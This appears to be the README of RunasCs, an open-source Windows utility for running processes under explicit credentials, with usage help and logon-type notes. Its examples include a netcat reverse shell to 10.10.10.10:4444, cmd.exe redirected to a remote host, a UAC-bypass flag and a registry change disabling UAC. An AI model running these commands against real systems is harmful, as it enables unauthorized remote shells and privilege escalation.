 ### RunasCs

----

*RunasCs* is an utility to run specific processes with different permissions than the user's current logon provides using explicit credentials.
This tool is an improved  open version of windows builtin *runas.exe* that solves some limitations:

* Allows explicit credentials
* Works both if spawned from interactive process and from service process
* Manage properly *DACL* for *Window Stations* and *Desktop* for the creation of the new process
* Uses more reliable create process functions like ``CreateProcessAsUser()`` and ``CreateProcessWithTokenW()`` if the calling process holds the required privileges (automatic detection)
* Allows to specify the logon type, e.g. 8-NetworkCleartext logon (no *UAC* limitations)
* Allows to bypass UAC when an administrator password is known (flag --bypass-uac)
* Allows to create a process with the main thread impersonating the requested user (flag --remote-impersonation)
* Allows redirecting *stdin*, *stdout* and *stderr* to a remote host
* It's Open Source :)

*RunasCs* has an automatic detection to determine the best create process function for every contexts.
Based on the process caller token permissions, it will use one of the create process function in the following preferred order:

1. ``CreateProcessAsUserW()``
2. ``CreateProcessWithTokenW()``
3. ``CreateProcessWithLogonW()``


### Requirements

----

.NET Framework >= 2.0


### Usage

----

```console
RunasCs v1.5 - @splinter_code

Usage:
    RunasCs.exe username password cmd [-d domain] [-f create_process_function] [-l logon_type] [-r host:port] [-t process_timeout] [--force-profile] [--bypass-uac] [--remote-impersonation]

Description:
    RunasCs is an utility to run specific processes under a different user account
    by specifying explicit credentials. In contrast to the default runas.exe command
    it supports different logon types and CreateProcess* functions to be used, depending
    on your current permissions. Furthermore it allows input/output redirection (even
    to remote hosts) and you can specify the password directly on the command line.

Positional arguments:
    username                username of the user
    password                password of the user
    cmd                     commandline for the process

Optional arguments:
    -d, --domain domain
                            domain of the user, if in a domain.
                            Default: ""
    -f, --function create_process_function
                            CreateProcess function to use. When not specified
                            RunasCs determines an appropriate CreateProcess
                            function automatically according to your privileges.
                            0 - CreateProcessAsUserW
                            1 - CreateProcessWithTokenW
                            2 - CreateProcessWithLogonW
    -l, --logon-type logon_type
                            the logon type for the token of the new process.
                            Default: "2" - Interactive
    -t, --timeout process_timeout
                            the waiting time (in ms) for the created process.
                            This will halt RunasCs until the spawned process
                            ends and sent the output back to the caller.
                            If you set 0 no output will be retrieved and a
                            background process will be created.
                            Default: "120000"
    -r, --remote host:port
                            redirect stdin, stdout and stderr to a remote host.
                            Using this option sets the process_timeout to 0.
    -p, --force-profile
                            force the creation of the user profile on the machine.
                            This will ensure the process will have the
                            environment variables correctly set.
                            WARNING: If non-existent, it creates the user profile
                            directory in the C:\Users folder.
    -b, --bypass-uac
                            try a UAC bypass to spawn a process without
                            token limitations (not filtered).
    -i, --remote-impersonation
                            spawn a new process and assign the token of the
                            logged on user to the main thread.

Examples:
    Run a command as a local user
        RunasCs.exe user1 password1 "cmd /c whoami /all"
    Run a command as a domain user and logon type as NetworkCleartext (8)
        RunasCs.exe user1 password1 "cmd /c whoami /all" -d domain -l 8
    Run a background process as a local user,
        RunasCs.exe user1 password1 "C:\tmp\nc.exe 10.10.10.10 4444 -e cmd.exe" -t 0
    Redirect stdin, stdout and stderr of the specified command to a remote host
        RunasCs.exe user1 password1 cmd.exe -r 10.10.10.10:4444
    Run a command simulating the /netonly flag of runas.exe
        RunasCs.exe user1 password1 "cmd /c whoami /all" -l 9
    Run a command as an Administrator bypassing UAC
        RunasCs.exe adm1 password1 "cmd /c whoami /priv" --bypass-uac
    Run a command as an Administrator through remote impersonation
        RunasCs.exe adm1 password1 "cmd /c echo admin > C:\Windows\admin" -l 8 --remote-impersonation
```

The two processes (calling and called) will communicate through one *pipe* (both for *stdout* and *stderr*).
The default logon type is 2 (*Interactive*). 

By default, the *Interactive* (2) logon type is restricted by *UAC* and the generated token from these authentications are filtered.
You can make interactive logon without any restrictions by setting the following regkey to 0 and restart the server:

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\EnableLUA
```

Otherwise, you can try the flag **--bypass-uac** for an attempt in bypassing the token filtering limitation.

**NetworkCleartext (8)** logon type is the one with the widest permissions as it doesn't get filtered by UAC in local tokens and still allows
 authentications over the Network as it stores credentials in the authentication package. If you holds enough privileges, try to always specify this logon type through the flag --logon-type 8.

By default, the calling process (*RunasCs*) will wait until the end of the execution of the spawned process. 
If you need to spawn a background or async process, i.e. spawning a reverse shell, you need to set the parameter ``-t timeout`` to ``0``. In this case *RunasCs* won't wait for the end of the newly spawned process execution.

### References

----

* [Potatoes and tokens](https://decoder.cloud/2018/01/13/potato-and-tokens/)
* [Starting an Interactive Client Process in C++](https://docs.microsoft.com/en-us/previous-versions/aa379608(v=vs.85))
* [Creating a Child Process with Redirected Input and Output](https://learn.microsoft.com/en-us/windows/win32/procthread/creating-a-child-process-with-redirected-input-and-output)
* [Interactive Services](https://learn.microsoft.com/en-us/windows/win32/services/interactive-services)
* [What is up with "The application failed to initialize properly (0xc0000142)" error?](https://blogs.msdn.microsoft.com/winsdk/2015/06/03/what-is-up-with-the-application-failed-to-initialize-properly-0xc0000142-error/)
* [Getting an Interactive Service Account Shell](https://www.tiraniddo.dev/2020/02/getting-interactive-service-account.html)
* [Reading Your Way Around UAC (Part 1)](https://www.tiraniddo.dev/2017/05/reading-your-way-around-uac-part-1.html)
* [Reading Your Way Around UAC (Part 2)](https://www.tiraniddo.dev/2017/05/reading-your-way-around-uac-part-2.html)
* [Reading Your Way Around UAC (Part 3)](https://www.tiraniddo.dev/2017/05/reading-your-way-around-uac-part-3.html)
* [Vanara - A set of .NET libraries for Windows implementing PInvoke calls to many native Windows APIs with supporting wrappers](https://github.com/dahall/Vanara)

### Credits

-----

* [@decoder](https://github.com/decoder-it)
* [@qtc-de](https://github.com/qtc-de)
* [@winlogon0](https://twitter.com/winlogon0)
